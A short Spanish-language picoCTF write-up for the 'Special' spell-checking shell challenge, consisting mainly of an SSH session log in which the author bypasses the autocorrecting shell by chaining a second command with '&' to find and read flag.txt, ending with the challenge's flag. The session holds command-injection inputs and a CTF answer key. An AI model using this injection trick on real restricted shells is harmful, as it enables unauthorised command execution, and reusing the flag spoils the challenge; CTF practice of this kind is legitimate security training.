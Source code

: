# Retos PicoCTF


## Objetivo 

Don't power users get tired of making spelling mistakes in the shell? Not anymore! Enter Special, the Spell Checked Interface for Affecting Linux. Now, every word is properly spelled and capitalized... automatically and behind-the-scenes! Be the first to test Special in beta, and feel free to tell us all about how Special streamlines every development process that you face. When your co-workers see your amazing shell interface, just tell them: That's Special (TM)
Start your instance to see connection details.
Additional details will be available after launching your challenge instance.
## Solución 

```
jesus@jesus-ThinkPad-T420:~/Descargas$ ssh -p 55633 ctf-player@saturn.picoctf.net
ctf-player@saturn.picoctf.net's password: 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 6.5.0-1023-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Tue Sep 17 13:54:15 2024 from 127.0.0.1
Special$ Clear
Clear 
sh: 1: Clear: not found
Special$ Clear & ls
Clear & is 
sh: 1: is: not found
sh: 1: Clear: not found
Special$ find .
Find . 
sh: 1: Find: not found
Special$ Clear & find .
Clear & find . 
sh: 1: Clear: not found
.
./blargh
./blargh/flag.txt
./.cache
./.cache/motd.legal-displayed
Special$ Clear & cat ./blargh/flag.txt
Clear & cat ./blargh/flag.txt 
sh: 1: Clear: not found
picoCTF{5p311ch3ck_15_7h3_w0r57_6a2763f6}Special$
```

## Notas adicionales 

## Referencias 
